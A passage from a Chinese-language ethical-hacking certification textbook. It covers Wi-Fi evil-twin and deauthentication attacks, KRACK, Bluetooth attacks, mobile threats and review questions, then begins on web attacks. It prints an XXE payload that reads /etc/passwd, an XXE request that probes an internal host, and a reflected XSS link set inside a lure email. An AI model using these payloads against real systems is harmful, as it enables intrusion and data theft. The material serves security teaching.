你可能想要运行去认证攻击的几个原因。一是获取隐藏的 ESSID。由于 ESSID 未广播，你无法从接入点的公告中检索到它。不过，你可以从试图与接入点关联的客户端处获取 ESSID。如果你迫使客户端进入未认证状态，该客户端将需要重新认证，这样你就可以在客户端重新关联时从中捕获 ESSID。

另一个原因是在关联期间捕获握手。在 WEP 下，此流量将允许检索加密密钥。这意味着如果你还捕获了所有加密流量，你将能够解密它。这是因为初始化向量（用于为密钥生成种子的随机数）计算中存在弱点。该值最终并非真正随机，因此可以被识别。不过，这在 WPA2 中不起作用。WEP 中的弱点在 WPA2 中不存在。这并不是说没有其他攻击 WPA2 网络的方法。

## 邪恶孪生

邪恶孪生是一个配置成看起来就像合法接入点的流氓接入点，这意味着它会广播已知的 SSID。你可能会觉得这相当容易实现。你只需设置一个接入点，让客户端关联到它即可。不过，这可能帮不上多大忙。你可以让系统加入你控制的网络，希望能攻破它们。你还可能捕获未加密的 Web 流量，其中可能包含用户名和密码。然而，更好的做法是从客户端收集信息，例如认证信息或（根据需要）PSK。这将使你能够进入企业网络。不过，获取这些信息需要的不仅仅是一个接入点。

理想情况下，你应当拥有一种与客户端交互并收集其可能持有的信息的智能方式。如果你想使用邪恶孪生攻击，有一些程序可供使用，会让你的工作轻松很多。其中一个程序是 wifiphisher，可用于在干扰合法接入点的同时冒充无线网络，然后将流量重定向到由你管理的网站。这意味着，如果你想假装成一个常访问的网站，就不必担心任何加密问题。你不必尝试解密流量，因为你可以直接从自己的网页中捕获它。


另一个可用的工具是 airgeddon。这是一个适用于 Linux 发行版的程序，可用于多种类型的无线攻击。在接下来的代码清单中，你可以看到初始菜单，它在测试系统兼容性以及程序所需的所有工具和库的存在之后显示。许多攻击都需要将接口置于监听模式，而 airgeddon 可以实现这一点。与将接口置于监听模式作为攻击的一部分不同，它是一个菜单选项。你还会看到有一个握手工具菜单选项。这就是你可以捕获关联过程中握手的地方。

## airgeddon 攻击菜单

```
Interface wlan0 selected. Mode: Managed. Supported bands: 2.4 GHz

Select an option from menu:
--------
0. Exit script
1. Select another network interface
2. Put interface in monitor mode
3. Put interface in managed mode
--------
4. DoS attacks menu
5. Handshake tools menu
6. Offline WPA/WPA2 decrypt menu
7. Evil Twin attacks menu
8. WPS attacks menu
9. WEP attacks menu
--------
10. About & Credits
11. Options and language menu
```

不过，我们之前谈的是邪恶孪生攻击。这也是一个菜单选项。一旦你选择邪恶孪生攻击菜单，就会看到另一组菜单选项。同样，你可以将接口置于监听模式。你还将能够选择不同类型的邪恶孪生攻击。仅仅创建一个邪恶孪生接入点是一个不错的开端，但如果你使用该攻击，还需要引入其他工具来捕获数据。最简单的方法是让 airgeddon 为你设置完整的攻击。你可以看到，除了邪恶孪生之外，还可以启用嗅探和 sslstrip。使用 sslstrip 有助于潜在地解密 web 流量。如果此攻击成功，你将获得明文的 web 流量。你还可以使用 bettercap 在仅查看无线流量的基础上进行欺骗攻击。这还允许你使用浏览器漏洞利用框架（BeEF）来利用浏览器中的漏洞。这可能会让你通过他人使用 Web 浏览器来攻破系统。

## 邪恶孪生攻击菜单

```
********************************************************************* Evil Twin attacks menu *********************************************************************
Interface wlan0 selected. Mode: Managed. Supported bands: 2.4 GHz
Selected BSSID: None
Selected channel: None
Selected ESSID: None

Select an option from menu:
-----
0. Return to main menu
1. Select another network interface
2. Put interface in monitor mode
3. Put interface in managed mode
4. Explore for targets (monitor mode needed)
----------- (without sniffing, just AP) -----------
5. Evil Twin attack just AP
----------- (with sniffing) -----------
6. Evil Twin AP attack with sniffing
7. Evil Twin AP attack with sniffing and sslstrip
8. Evil Twin AP attack with sniffing and bettercap-sslstrip2/BeEF
----------- (without sniffing, captive portal) -----------
9. Evil Twin AP attack with captive portal (monitor mode needed)
-----------
```

这里需要注意的是，airgeddon 需要两个无线接口才能执行邪恶孪生攻击。它需要这个第二个接口用于 DoS 追逐模式，以防止可能成为无线攻击防护手段的频率跳变。第二个接口还用于对合法接入点执行拒绝服务攻击。这会使其不再响应工作站，而转而响应恶意接入点。

虽然 airgeddon 是一个非常有用的工具，但它所做的事情并没有什么独特之处。在底层，它使用了一套你需要预先准备好的工具集合，例如 hostapd、DHCP 服务器、DNSSpoof 和轻量级 HTTP 服务器。airgeddon 的优势在于它将所有这些工具整合在一起。这使得复杂的多工具攻击变得容易得多。你只需运行 airgeddon，而不必设置多个工具并确保所有参数都正确，且它们按所需顺序运行。

## 密钥重新安装

迄今为止，你可能认为使用 WPA2 的无线网络免疫于攻击，除非冒充合法的无线网络。当工作站进行四次握手时，结果之一是一个用于加密和解密的会话密钥。之所以称为会话密钥，是因为它在工作站连接到接入点期间的整个会话中都被使用。由于这些密钥随着时间的推移可能存在漏洞，因此如果连接保持较长时间，它们通常会被更换。这并非会话密钥的唯一问题。由于会话密钥是派生的而非预先已知，如果攻击者能在密钥派生过程中强制使用已知值，那么密钥就可能被获知。

四次握手用于允许工作站和接入点基于在两端之间传递的随机值（或称为 nonce）来派生密钥。在握手的第三条消息中，客户端已拥有安装会话密钥所需的所有内容。由于消息可能会丢失，尤其是当工作站远离接入点时，该第三条消息可能会被重传多次。我们可以利用这一点来重播先前捕获的消息。如果能强制使用已知的 nonce，加密密钥就会被攻击者获知。由于密钥已知，消息可以被解密，甚至被注入到通信信道中。

如果 nonce 值传输可以被重播，则意味着任何密钥创建都易受攻击。这不仅意味着工作站与接入点之间的会话密钥，还包括组密钥。这会暴露无线网络上的组播和广播传输。任何现代无线网络，无论使用的是 WPA 还是 WPA2，Enterprise 还是 Personal，都可能易受此类攻击。就撰写本文时，可用于自动化利用此密钥重装攻击（KRACK）的工具并不多。不过，针对网络元素也有一些可用的修复程序。

## 蓝牙

不仅网络传输实现了无线化，外围设备也是如此。不仅如此，任何两个通常会通过电缆进行通信的设备都可能使用一种名为蓝牙的无线协议。蓝牙是一种允许设备之间进行短距离通信的无线协议。它运行在被称为 2.4 GHz ISM 频段的一组频率中。802.11 使用了相同频谱的一部分。虽然 Class A 蓝牙设备由于信号强度更高，其范围可达约 100 米，但大多数蓝牙设备的范围约为 10 米，需要近距离才能进行交互。

蓝牙通过配置文件（profiles）提供多种功能。每个蓝牙设备将根据设备要求实现一组配置文件。例如，蓝牙耳机将实现高级音频分发（A2DP）配置文件。该配置文件定义了多媒体音频如何从一个设备流式传输到另一个设备。耳机实现的不止这一个配置文件，因此每个蓝牙设备可能实现多个配置文件。当两个设备配对时，它们会共享各自的功能，即相互告知所支持的配置文件。

配对过程会在两个设备之间建立绑定。配对需要验证，因此每个设备都应提供一种方式，指示其预期并希望与另一台设备配对。早期设备使用一个简单的四位数字（PIN），需要提供该数字以表明请求配对的设备知道该值。对于输入能力有限的设备（如耳机或耳塞），该值会被硬编码。正确的值会作为设备文档的一部分提供给你。后续版本的蓝牙扩展了用于验证配对请求的功能。


引入了 Bluetooth v2.1 的简单安全配对（Simple Secure Pairing，SSP）。使用此版本完成配对请求有四种机制，不包括为支持旧设备所需的兼容性。第一种被称为“Just Works”，因为配对应该无需用户任何交互即可工作。如果两端都具有输入手段，则它们可以支持数字比较。这是每一端显示一个六位数值的地方。如果两个值匹配，用户可以指明情况如此，并且两个端点可以完成配对过程。

在某些情况下，外围设备可能只能提供输入而不能输出，例如蓝牙键盘。当您将其与计算机配对时，计算机可能会提示您在键盘上输入一个值。如果值匹配，配对过程即完成。同样，这将是一个六位数值。最后，您可以进行带外配对。这将需要另一种协议来协助配对过程。例如，有时会使用近场通信（NFC）。您可能有一个设备，它期望您将另一台设备（如智能手机或平板电脑）靠近。一旦两台设备靠近，您就可以在智能手机或平板电脑上使用应用来完成配对和设置过程。

攻击 Bluetooth 的方式有几种。请记住，无论您做什么，都需要靠近想要攻击的设备。不过，在公共场所这可能很容易实现。这些攻击中的一些有 bluejacking、bluesnarfing 和 bluebugging。

## 扫描

在深入攻击之前，我们应该先了解如何确定潜在受害者可能在哪里。您可以直接执行添加 Bluetooth 设备的过程，系统将扫描设备。不过，您也可以使用专用软件。这可以使用 btscanner 之类的程序来完成。使用 btscanner，您可以执行查询扫描和暴力扫描。使用查询扫描时，您的系统会进入查询扫描状态。在此状态下，您的设备监听来自其他设备的查询。共有 32 个信道，您的 Bluetooth 接收器需要花时间在每个信道上监听。在以下清单中，您可以看到 btscanner 正在执行查询扫描。

### 使用 btscanner 进行查询扫描

| 时间 | 地址 | 时钟偏移 | 类别 | 名称 |
|------|---------|---------|-------|------|
| 2018/12/25 17:58:22 | 64:1C:B0:94:BA:58 | 0x2c42 | 0x0c043c | (未知) |
| 2018/12/25 17:56:07 | 00:9E:C8:93:48:C9 | 0x38b3 | 0x80a0110 | (未知) |

enter=select, Q=quit
开始查询扫描
发现设备 00:9E:C8:93:48:C9
发现设备 64:1C:B0:94:BA:58

另一种扫描是暴力扫描。查询扫描是接收器监听查询，而暴力扫描则主动向设备发送消息，以确定它们是什么。为此，它需要要发送消息的地址。这种连接发生在第 2 层，这意味着我们谈论的是 MAC 地址。在以下清单中，您可以看到使用 btscanner 执行暴力扫描。要运行此扫描，您需要告诉 btscanner 要扫描的起始地址和结束地址，如您所见，系统会要求您提供这些地址。您需要以 MAC 地址的形式提供它们。请记住，每个八位字节有 256 个值，因此您要遍历的地址八位字节越多，扫描所需时间就越长。

### btscanner 启动暴力扫描


这种扫描将为您提供设备列表。它不会告诉您设备支持哪些配置文件。仅拥有附近设备的列表可能足以运行一些常用于攻击 Bluetooth 设备的攻击。

## 蓝贴（Bluejacking）

蓝贴（Bluejacking）是指攻击者无需经过配对过程即可向 Bluetooth 设备发送数据，或者配对过程在接收者不知情的情况下发生。您可以使用蓝贴攻击向受害者发送未经请求的消息。这可能是一张图片或一条短信。这可能是一个伪装攻击，您发送一条看起来来自其他人的消息，以促使收件人做某事。此攻击使用对象交换（OBEX）协议在设备之间移动消息或图片。

由于这只是单向消息，单独来看它并无害处。此类攻击带来的危害在于促使设备所有者做您希望他们做的事。不过，这对他们可能并非有益。

## 蓝窃（Bluesnarfing）

蓝窃（Bluesnarfing）比蓝贴（Bluejacking）危险得多。蓝贴是向设备发送数据，而蓝窃则是从设备获取数据。Bluetooth 设备必须以一定程度暴露出来，才能允许其他设备开始配对过程。这就为其他设备利用这个小窗口打开了可能性。无需经过配对过程即可通过 Bluetooth 获取设备访问权限是可能的。如果攻击者能够访问某人的智能手机或另一台存储有敏感数据的 Bluetooth 设备，他们可能能够提取这些数据。

与其他 Bluetooth 攻击一样，攻击者必须靠近想要访问的设备。不过，有一种变体称为远程蓝窃（long distance bluesnarfing），它可以从更远的距离发动同样的攻击。

## 蓝臭（Bluebugging）

您可能意识到我们周围存在窃听设备的问题。Amazon Echo、Google Home 及其他类似设备通常处于“始终监听”模式。蓝臭（Bluebugging）攻击与此类似，并且在我们开始自愿将这些设备安装到生活和工作空间之前很久就已存在。蓝臭攻击使用 Bluetooth 获取手机访问权限，以便发起电话呼叫。一旦呼叫发起，攻击者就拥有了一个远程窃听设备。初始攻击必须在靠近目标的情况下进行，但无论受害者和攻击者相互位于何处，电话呼叫都将继续提供远程监听点。

蓝臭攻击，或许幸运，或许不幸（取决于您处于哪一方），很容易被识别和击败。至少在发起电话呼叫时，设备持有者会很明显地发现。他们所要做的就是查看自己的设备。然后他们可以挂断电话。当然，修复最初让攻击者获得访问权限的漏洞是另一回事。

蓝臭攻击以及其他攻击都已属于旧攻击。这意味着它们不太可能对现代设备成功，因为多年以来这些攻击被识别后，允许攻击者轻松访问的漏洞通常已得到修复。不过，这并不意味着它们无关紧要。仍有旧设备在使用，可能允许这些攻击成功。

## 移动设备

Bluetooth 攻击是访问移动设备的一种方式，Bluetooth 之所以很好，是因为您不需要物理访问；您只需要靠近受害者。这使您能够通过空气进行操作，而不是进行物理操作。考虑到移动设备的普遍性，它们成为攻击者高价值目标也是合理的。虽然许多攻击依赖于应用程序和操作系统中的特定漏洞，但有些攻击在移动平台之间很常见。因为它们跨多个平台工作，所以它们更多是攻击类别，而非特定漏洞利用。

目前移动设备主要有两个平台，但这并不意味着只有两个平台。情况还因其中一个平台是 Android 而变得更加复杂。Android 是由 Google 开发和管理的软件，但运行 Android 的硬件由众多制造商开发。Google 将 Android 源代码提供给供应商，每个供应商可能以不同方式实现它，修改代码和/或添加软件和功能。这意味着 Android 平台是分裂和碎片化的，更不用说野外存在大量 Android 版本了。Android 运行在智能手机和平板电脑上。还有一个版本的 Android 运行在智能穿戴设备（如手表）上。

另一个常见的平台是 iOS，由 Apple 为 iPhone 和 iPad 开发。iOS 是 macOS 的精简版。就我们这里的角度而言，iOS 的优势在于 Apple 会大力推动用户升级到最新的软件版本，包括使在旧硬件上运行较新操作系统变得困难。这意味着野外的 iOS 版本远少于 Android 版本。这有两面性。iPhone/iPad OS 安装更有可能接近最新状态，与 Android 安装面临的已知漏洞相比，其已知漏洞更少。

对移动设备威胁最令人担忧的途径之一是通过应用程序。Android 自带一个名为 Google Play Store 的应用市场。三星等供应商也可能有自己的应用市场，作为在移动设备上安装应用程序的另一种选择。设备上还可以配置第三方应用商店。允许此操作是 Android 平台上的一个设置。默认情况下，这通常是不允许的，但用户如果愿意可以绕过该保护。

Apple 有自己的应用市场。您可以在图 11.10 中看到 Apple App Store。iOS 不像 Android 那样是开放平台。没有办法在不破坏操作系统的情况下配置其他市场或安装应用程序。这一过程通常称为越狱（jailbreaking），随着 Apple（以及 Google 和 Samsung）找到了修复允许越狱发生的漏洞的方法，越狱已变得不再容易。可能倾向于越狱手机的用户也可能倾向于安装非法软件。


## 图 11.10 Apple App Store


## 移动设备攻击

第三方应用程序是获取移动设备访问权限的最佳方式。Google 和 Apple 都会审查提交到其应用市场的应用程序。但这并非完美的过程。两个市场都有应用程序通过了这一审查过程，却以某种形式存在恶意。有时甚至合法软件也会越界，例如 Trend Micro 软件因收集的数据被移除的情况。那些不审查软件（即未对软件进行测试和分析）的应用市场问题更加严重。将软件放入第三方市场是将间谍软件和其他恶意软件植入移动设备的一种方式。

许多应用程序会定期收集数据，无论用户是否知情。这些数据可能会被传回由应用程序所有者控制的存储。大多数应用程序使用操作系统供应商（例如，Apple 或 Google）提供的框架。这些框架通常可能用于通过 HTTP 连接发送数据，甚至可能强制加密该连接。然而，无法保证这种加密，这意味着如果应用程序从用户处收集数据，然后将该数据发送到远程存储位置，数据可能会泄露。这种数据泄露可能是一个严重问题，攻击者也可能利用它收集可用于其他攻击的详细信息。

如前所述，无线网络并不总是受到保护。可能存在流氓网络或未加密网络。这是数据泄露可能发生的另一个地方。使用本章前面展示的技术，可以通过无线网络收集数据。这在公共场所尤其有用，人们可能会在那里通过移动设备连接到无线网络。他们也可能在查看企业电子邮件或通过 Microsoft Teams、Slack 或 HipChat 等企业通信平台进行交互。

针对移动设备的一些其他常见攻击与您对传统桌面系统所想到的相同。移动设备可能有不同的处理器，操作系统确实为应用程序提供了一些保护，以防止它们与设备上的其他应用程序交互。这种技术称为沙箱化。网络钓鱼攻击在移动设备上同样可能。恶意软件在移动设备上也可能出现，与桌面系统一样。恶意软件可能包括间谍软件，从移动设备收集信息。

糟糕的编程始终是一个问题。无论进行多少测试，无论在软件供应商和平台供应商之间，都会出现漏洞。在某些情况下，可能会使用糟糕的加密机制。当程序员认为有比标准手段更好的加密方法时，就会发生这种情况。人们普遍认为公开可用的加密是最好的，因为它可以由该领域最优秀的许多人进行分析和测试。

糟糕编程习惯的另一种可能性是不当处理会话数据。会话数据用于提供有关应用程序通信状态的信息。它让客户端和服务器知道它们在应用程序流程中的位置。如果会话信息没有得到正确处理，会话可能会被冒充。它们也可能被重放。这在与弱加密结合使用时尤其可能。

随着越来越多的用户将自己的设备带入工作场所，保护企业可能会更加困难，因为个人设备上无法关闭所有攻击途径。公司需要保护其资产，但智能手机不是公司资产。这里存在一个有趣的交汇点，攻击者可以利用这一点。

## 摘要

如今无线网络很常见，尤其是随着移动设备变得越来越普遍。无线网络有两种常见类型。第一种是自组网（ad hoc network），其中站点自行组织成网络。站点是无线网络中的终端。如果站点连接到一个接入点，则它是基础设施网络。当站点连接到接入点时，它们必须进行身份验证。可能存在开放式身份验证，这意味着任何人都可以加入网络而无需知道密码。现代无线网络使用 WPA 进行加密，WPA 网络使用四次握手来验证站点并派生加密密钥。

WEP 是加密无线通信的第一次尝试。不幸的是，初始化向量（一种旨在为加密播种的随机值）实际上并非随机，可能会被猜测，导致密钥泄露。第二次迭代旨在作为临时方案，即 WPA。最终，WEP 的最终替代方案出现了，称为 WPA2。WPA 和 WPA2 都支持个人身份验证和企业身份验证。个人身份验证使用预共享密钥。企业身份验证可以支持用户名和密码身份验证。

无线网络可能受到攻击。在使用 WEP 的网络中，如果从无线网络收集了足够的帧，则可以推导出加密密钥。常见的嗅探应用程序（如 Wireshark）可以用于嗅探无线网络。无线接口需要被设置为监听模式才能收集无线电头。Wireshark 可能能够自行完成此操作，具体取决于网络接口。您还可以使用 aircrack-ng 套件中的 airmon 程序。您还可以使用 aircrack-ng 尝试破解网络使用的密码。

收集足够数据的一种方法是使用去认证攻击。此攻击会向客户端发送消息，告诉它们在网络上已被去授权。攻击系统会伪造消息，使其看起来像是来自接入点。同时，攻击者可能会尝试干扰接入点，使其既无法接收，更重要的是无法响应站点。攻击者可能会不断发送这些解关联消息，强制受害站点继续发送尝试对网络进行身份验证的消息。

邪恶双胞胎攻击是指攻击者建立一个看起来与合法网络具有相同 SSID 的网络。站点会尝试对流氓接入点进行身份验证。流氓接入点随后可以收集任何身份验证凭据，一旦站点传递了这些凭据，邪恶双胞胎就会允许连接，并在站点连接后从站点收集流量。

另一种攻击是密钥重装攻击。这是一种攻击，其中重用流量以强制站点使用已知密钥。这意味着攻击者知道密钥是什么，这意味着流量可以被解密。

当然，802.11 不是唯一的无线通信协议。Bluetooth 也经常使用。存在几种 Bluetooth 攻击，尽管其中一些可能已过时且无法在现代设备上工作。但是，有大量使用旧版 Bluetooth 实现的旧设备，这些攻击可以在这些设备上起作用。Bluejacking 是使用 Bluetooth 向目标系统发送消息。Bluesnarfing 是使用 Bluetooth 从目标系统收集数据。Bluebugging 是使用 Bluetooth 连接到目标系统，然后从目标系统发起呼叫，以便可以窃听对话。

移动设备通常使用 802.11 和 Bluetooth 等无线协议。有方法可以将恶意应用程序注入到平板电脑和智能手机等移动设备上。这可以通过第三方应用商店来完成，用户可能会被说服将其添加为设备上的一个选项。移动设备也容易受到与桌面相同类型的攻击，例如网络钓鱼、恶意软件以及可能为数据泄露敞开大门的编程错误。


## 复习问题

你可以在附录中找到答案。

- 1. 无线网络的两种类型是什么？
  - A. 星型和环型
  - B. 总线型和混合型
  - C. 基础设施模式和混合型
  - D. 基础设施模式和自组网

- 2. WPA 握手使用多少个阶段？
  - A. 两个
  - B. 四个
  - C. 三个
  - D. 一个

- 3. 必须在网络接口上启用什么模式才能捕获无线流量中的所有报头？
  - A. 混杂模式
  - B. 监听模式
  - C. 无线电
  - D. 无线局域网

- 4. 你会使用哪种无线攻击来获取已知信息，以便能够解密无线流量？
  - A. 嗅探
  - B. 取消认证
  - C. 密钥重装
  - D. 孪生接入点

- 5. 执行蓝牙扫描的目的是什么？
  - A. 识别开放端口
  - B. 识别可用配置文件
  - C. 识别端点
  - D. 识别厂商

- 6. 取消认证攻击的目的是什么？
  - A. 禁用工作站
  - B. 强制工作站重新认证
  - C. 减少握手步骤的数量
  - D. 降级加密

- 7. 允许人们在企业网络上使用自己的智能手机的策略是什么？
  - A. 自带设备
  - B. 使用自己的设备
  - C. 自带智能设备
  - D. 使用自己的智能设备

- 8. WEP 中加密过程的哪个部分存在弱点？
  - A. 密钥
  - B. Diffie-Hellman
  - C. 初始化向量
  - D. 种子向量

- 9. 四阶段握手用于什么？
  - A. 传递密钥
  - B. 派生密钥
  - C. 加密消息
  - D. 初始化种子

- 10. SSID 用于什么？
  - A. 加密消息
  - B. 提供 MAC 地址
  - C. 标识网络
  - D. 种子密钥

- 11. 孪生接入点攻击中使用的是哪种接入点？
  - A. 基础设施模式
  - B. 自组网
  - C. WPA
  - D. 流氓接入点

- 12. 孪生接入点攻击是如何工作的？
  - A. 钓鱼获取用户凭据
  - B. 欺骗 SSID
  - C. 更改 SSID
  - D. 注入四次握手

- 13. 你可能会使用什么方法将恶意软件成功安装到移动设备上？
  - A. 使用 Apple Store 或 Google Play 商店
  - B. 在 Android 上使用外部存储
  - C. 使用第三方应用商店
  - D. 越狱

- **14. 你会使用蓝臭虫攻击来做什么？**
  - A. 识别附近的蓝牙设备
  - B. 监听物理空间
  - C. 启用手机摄像头
  - D. 从目标系统收集数据

- **15. 蓝牙设备的信号范围通常是多少？**
  - A. 300 英尺
  - B. 3,000 英尺
  - C. 75 英尺
  - D. 500 英尺

- **16. 你可以使用什么工具在无线网络上启用嗅探以获取所有报头？**
  - A. Ettercap
  - B. Tcpdump
  - C. Aircrack-ng
  - D. Airmon-ng

- **17. 从受害者的角度来看，为什么蓝嗅探可能比蓝垃圾邮件更危险？**
  - A. 蓝垃圾邮件发送而蓝嗅探接收。
  - B. 蓝垃圾邮件接收而蓝嗅探发送。
  - C. 蓝垃圾邮件安装键盘记录器。
  - D. 蓝嗅探安装键盘记录器。

- **18. 什么工具可以让你实施孪生接入点攻击？**
  - A. Wireshark
  - B. Ettercap
  - C. Wifiphisher
  - D. Aircrack-ng

- **19. WPA 加密网络中允许哪些类型的认证？**
  - A. 握手和个人
  - B. 个人和企业
  - C. 企业和握手
  - D. 802.11 和个人

- **20. 当你捕获包含无线电报头的无线流量时，你不会看到什么？**
  - A. 功能
  - B. 探测请求
  - C. SSID
  - D. 网络类型


# 第 12 章

# 攻击与防御

### 本章涵盖的以下 CEH 主题：

- 防火墙
- 网络安全
- 边界保护设备
- 日志分析工具
- 安全模型
- 信息安全事件
- 技术评估方法


攻击是道德黑客攻防演练的一个重要元素。一旦你完成了对环境的所有评估，就可以着手尝试获得访问权限。虽然社会工程学在攻击中可能是一个重要元素，但它不是唯一的入侵方式。一旦进入内部，你还需要着重进行横向移动。这可能需要一些技术攻击。可能涉及与 Web 应用程序以及其中可能暴露的不同漏洞进行交互。你可能还需要了解拒绝服务攻击。在执行欺骗攻击时，可能需要将某个服务器禁用。还存在针对监听服务的应用层攻击。

在攻击网络时，还需要考虑的另一个因素是存在哪些防御措施。由于道德黑客攻防的主要目标是提高组织的防御态势，因此了解防御策略很有帮助。在攻击方面，了解可能存在哪些防御措施将有助于你绕过这些防御。当你为正在合作的组织提供补救措施时，你应该更好地了解可能采取哪些措施。

Web 应用程序是用户从企业获取功能和数据的常见方式。攻击 Web 应用程序有几种方法。成功攻击 Web 应用程序可能带来多种潜在结果，包括获得系统级访问权限。Web 网站有时也是拒绝服务攻击的目标。当你想到拒绝服务攻击时，可能首先想到的是带宽消耗攻击，但这并不是拒绝服务攻击的唯一类型。存在一些执行拒绝服务攻击的方法，它们依然有效，而且与带宽消耗无关。

攻击者通常会尝试从一个系统移动到另一个系统——我们称之为横向移动。正因如此，而且由于简便的攻击途径往往是通过已经暴露的漏洞，因此拥有良好的防御策略非常重要。纵深防御和广度防御长期以来被认为是保护网络的良好方法，而另一种思考网络设计的方式是实施可防御的网络架构。

## Web 应用程序攻击

Web 应用程序不仅仅是一组网页。可以存在静态网站，用户与网页之间没有编程式交互。网页会呈现给用户，可能包含链接和其他内容，但没有地方可以向网页输入内容，或者向服务器发送可能会被处理的内容。Web 应用程序可能在网页中包含代码，使用脚本语言，或者在服务器上运行的代码。

从架构角度思考 Web 应用程序是一种方法。开发应用程序的一种常见方式被认为是通过使用模型/视图/控制器模式。图 12.1 展示了模型/视图/控制器模式如何在 Web 应用程序中实现的示意图。模型是数据的结构。虽然它通常存储在数据库中，但通常会有应用程序服务器通过创建结构并对其进行操作来管理模型。应用程序服务器使用数据库服务器进行持久化存储，但对数据（模型）的所有处理都在应用程序服务器中完成。这意味着所有数据操作都在应用程序服务器中启动，尽管逻辑执行有时可能发生在数据库服务器上。请记住，与数据库的交互是通过结构化查询语言 (SQL) 完成的。虽然业务逻辑和应用程序逻辑在应用程序服务器中处理，但有时操作实际上是在数据库服务器上完成的。

### 图 12.1 模型/视图/控制器设计


控制器是接收请求并对其进行处理的应用程序部分，将请求引导至应用程序服务器中运行的应用程序的正确部分。最后，视图是用户交互组件，通常是 Web 浏览器。模型以浏览器中用户可消费的方式呈现。有以超文本标记语言 (HTML) 形式存在的代码用于描述和呈现网页。还可能有帮助浏览器中页面功能的脚本。

应用程序服务器处理应用程序的业务逻辑，并可能根据应用程序服务器的类型使用不同的编程语言。在 Windows 上，有人可能使用 Microsoft 的 Internet Information Server，该服务器支持 .NET 语言（如 C# 和 Visual Basic）。Java 应用程序可供许多供应商使用。Tomcat、WildFly（以前称为 JBoss）、WebLogic 等是 Java 应用程序服务器的类型。应用程序服务器本身可能引入不同的漏洞和攻击方法，但也有许多适用于 Web 应用程序的通用攻击。

然而，在研究 Web 应用程序攻击时，一个重要的考虑因素是被攻击的组件是什么。某些攻击可能针对客户端设备（即


view)，而其他可能针对 Web 服务器（控制器）。其他可能针对数据存储元素（数据库）。不过，攻击点并不总是您会修复攻击的地方。这意味着，即使，例如，客户端是攻击的目标，客户端也可能不是防止攻击发生的最佳位置。

## XML 外部实体处理

数据模型可能是一组复杂的数据，其中多个数据片段相互关联，需要组织在一起。这与仅将字符串从网页传递到 Web 服务器有很大不同。可能涉及传递多个字符串、若干整数以及一些组织信息。组织数据的一种方法是使用可扩展标记语言（XML）。XML 允许您将所有相关数据放入单个数据结构中，并附带指示每个数据片段是什么的组织信息。在客户端和服务器之间来回传递数据的常见方法是使用 XML 来构建数据并传输该 XML。

与其他 Web 应用程序攻击类型一样，您会发现，XML 实体注入攻击源于 Web 服务器上的代码，该代码接受来自客户端的数据，但不执行任何数据验证。这意味着程序员在数据进入应用程序时没有编写任何检查。即使是呈现数据的页面内容中的脚本代码，用户仍然可能对其进行篡改，甚至生成数据传输发送到服务器。因此，任何来自用户的数据都永远不应被信任。作为一般规则，从外部传递到函数中的数据不应被信任，因为无法保证程序的正常控制流没有被篡改。当程序员不对数据进行任何检查时，错误数据可能会滑入程序并改变预期行为。

以下代码清单显示了一个可能允许攻击者访问系统文件的 XML 包示例。XML 引用系统中的外部实体。在此示例中，它是一个文件。攻击者请求将文件 /etc/passwd 的内容传回视图。

### XML 外部实体处理示例

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE wubble [
 <!ELEMENT wubble ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><wubble>&xxe;</wubble>
```

这未必看起来是什么大事。但是，在某些情况下，您可以让应用程序服务器替您完成一些工作。假设您想知道内部 Web 服务器（例如，您作为攻击者因防火墙规则无法访问的服务器）是否在运行。一种方法是让应用程序服务器通过将 URL 传入系统标记来发起请求。这会导致应用程序服务器带 URL 调用系统，系统会将其解释为获取指示页面的请求。这里您可以看到一个示例 XML，它会允许发生这种情况。

### 内部页面的 XML 请求

```
<?xml version="1.0"?>
<!DOCTYPE GVI [< !ENTITY xxe SYSTEM "https://172.30.42.25:8443" >]>
```

当然，使用这种方法做这种资源检查（或者说端口扫描）并不是您能做的唯一事情。防止此类攻击的最佳方法是进行输入验证。输入验证应在服务器端执行。您可以在客户端进行输入验证，但请预期它会被绕过。使用拦截代理甚至浏览器内工具来捕获请求并在将其发送到服务器之前对其进行修改，这很容易做到。

在这种情况下，仅仅不允许任何 XML 使用外部实体 SYSTEM 就是一个好的开始。应用程序需要通过系统执行的任何操作都应由应用程序在解析数据后直接执行。更进一步，评估是否有避免使用任何外部实体的方法会很有用。同样，任何外部需求可能都应在应用程序代码妥善评估任何数据后直接由应用程序代码处理。这意味着在解析 XML 时可以忽略所有外部实体。

外部实体 XML 攻击针对服务器。这可能是 Web 服务器或应用程序服务器，具体取决于谁处理 XML 解析。

## 跨站脚本（XSS）

跨站脚本攻击是一种利用 Web 服务器攻击客户端的攻击。它将脚本语言的代码片段注入输入字段，以便在用户访问网站时在用户的浏览器中执行该代码。跨站脚本攻击有三种方式。它们都针对用户。区别在于脚本是否存储在某处。第一种类型存储在服务器上，并为访问页面的任何用户显示，称为持久性跨站脚本。第二种称为反射型跨站脚本。最后一种使用文档对象模型（DOM）。

> 您会注意到，跨站脚本缩写为 XSS，其中的 X 表示 *交叉*，而不是 CSS（C 是 *交叉* 的首字母）。还有另一种 Web 技术，即层叠样式表（Cascading Style Sheets），也缩写为 CSS，如果两者都使用 CSS，很容易混淆。

三种类型以相同的方式使用脚本语言。攻击者会在 <script></script> 块中使用一段简短的脚本。例如，攻击者可能将 <script>alert ( 'wubble' );</script> 注入输入字段。对于持久性跨站脚本，这是服务器上存储值的字段。这种攻击的经典示例是 Web 论坛，用户可能会被要求输入姓名、电子邮件地址，然后是评论。Web 表单中这些字段的所有值都将被存储。当有人返回论坛时，将显示信息，包括脚本，该脚本将由浏览器执行。在上述示例中，将显示包含单词 wubble 的警告对话框。

对于反射型攻击，脚本不会被存储。相反，它包含在您要发送给受害者的 URL 中。此类 URL 如下所示，您可以看到脚本作为参数传递：

```
http://www.badsite.com/foo.php?param=<script>alert(5000);</script>
```

您将此 URL 发送给受害者，并做些事情诱使他们点击它。例如，声称 Apple 正在向前 1,000 点击此链接的人免费赠送 iPhone。然后您会使链接指向前述 URL。您可以在 HTML 电子邮件中使用以下 HTML 标签来实现这一点：

```
<a href=" http://www.badsite.com/foo.php?param=<script>alert(5000); </script>"></a>
```

用户收到这封电子邮件后，只会看到可点击的链接。为了查看链接指向的 URL，他们需要将光标悬停在链接上方，或者查看消息的源代码。即使这样，也假设用户能够理解足够的 HTML 来知道这里正在发生什么。显然，真正的脚本会做更恶意的事情，例如窃取存储在 Cookie 中的会话信息。信息被盗后，可以通过携带被盗信息向攻击者管理的服务器发送请求来将其传输给攻击者。

